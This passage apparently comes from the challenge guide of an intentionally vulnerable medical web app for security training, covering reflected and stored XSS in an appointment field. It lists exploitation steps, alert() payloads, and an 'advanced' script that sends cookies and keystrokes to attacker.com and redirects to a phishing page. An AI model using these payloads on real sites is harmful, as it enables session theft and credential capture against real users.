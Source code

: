 **What you'll learn**:
- How reflected XSS attacks work
- The difference between reflected and stored XSS
- Basic XSS payload construction

**Hint**: Use the search functionality available to doctors/staff and try including HTML/JavaScript tags in your search query. Look for the `searchSummary` field in the API response that reflects your input unsanitized.

---

### Challenge 5: Stored Cross-Site Scripting (XSS) in Appointment Reason
**Difficulty**: 🟢 Beginner  
**Category**: Cross-Site Scripting  
**Goal**: Execute persistent JavaScript code through appointment reason field that will be displayed to doctors.

**Description**: The appointment booking system allows patients to enter a reason for their visit without proper sanitization. The reason field is stored in the database and then rendered using `dangerouslySetInnerHTML` on the doctor's dashboard, creating a stored XSS vulnerability.

**What you'll learn**:
- How stored XSS vulnerabilities work
- The dangers of `dangerouslySetInnerHTML` in React
- How user input can persist and affect other users
- The importance of input sanitization and output encoding

**Steps to exploit**:
1. Log in as a patient account (e.g., `patient@test.com` / `password123`)
2. Go to the Appointments tab
3. Click "Book New Appointment"
4. Fill in the appointment details
5. In the "Reason for Visit" field, enter malicious JavaScript
6. Submit the appointment
7. Log in as a doctor account (e.g., `doctor@test.com` / `password123`)
8. Go to the Appointments tab
9. View the appointment - the JavaScript will execute in the doctor's browser

**Sample XSS Payloads**:
```html
<script>alert('XSS in appointment reason!')</script>
<img src="x" onerror="alert('XSS via image error')">
<svg onload="alert('XSS via SVG')">
<div onmouseover="alert('XSS on mouseover')">Hover me</div>
```

**Advanced Payloads**:
```html
<script>
  // Steal session cookies
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
  
  // Keylogger
  document.addEventListener('keypress', function(e) {
    fetch('http://attacker.com/keylog?key=' + e.key);
  });
  
  // Redirect to malicious site
  window.location.href = 'http://attacker.com/phishing';
</script>
```
